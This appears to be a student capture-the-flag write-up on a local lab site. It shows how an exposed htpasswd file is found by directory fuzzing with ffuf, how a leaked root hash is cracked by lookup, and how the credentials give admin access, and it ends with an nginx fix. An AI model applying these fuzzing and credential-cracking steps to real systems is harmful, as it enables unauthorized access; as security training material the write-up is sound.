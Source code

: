 # Credentials Exposure via htpasswd

## 📖 Vulnerability Explanation
Credential exposure is a misconfiguration vulnerability that happens when private authentication information is exposed to non authorized users.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing:
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

We find a htpasswd file present in the ```whatever/``` directory. After downloading the file, we can see a username and hash combination.
```

root:437394baff5aa33daa618be47b75cb49
```

---
- Check the hash value:
![](./CrackStation.png)
---

Use the credentials obtained to login on the ```admin/``` directory and get the flag.

## 🧰 Additional Resources Used
In order to enumerate web directories we used ```ffuf```, a compiled web fuzzer written in go.

- https://github.com/ffuf/ffuf

The wordlist we used part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The file ```htpasswd``` or any file containing credentials should never be exposed to unauthorized users. Configuring nginx to restrict access to this file is recommended.

## ☝️🤓 Advanced explanation
A properly configured nginx config file could look like this:
```
server {
    listen 80;
    server_name bornToSec.com;

    root /var/www/html;

    location /admin/ {
        auth_basic           "Restricted Area";
        auth_basic_user_file /etc/nginx/.htpasswd;
    }

    location ~ /\.htpasswd {
        deny all;
    }

    location / {
        index index.php;
    }
}
```